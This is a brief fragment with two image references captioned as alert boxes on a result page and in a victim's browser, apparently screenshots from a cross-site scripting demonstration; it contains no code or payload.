<figure><figcaption><p>Alert Box on Result Page</p></figcaption></figure>

<figure><figcaption><p>Alert Box in Victim's Browser</p></figcaption></figure>
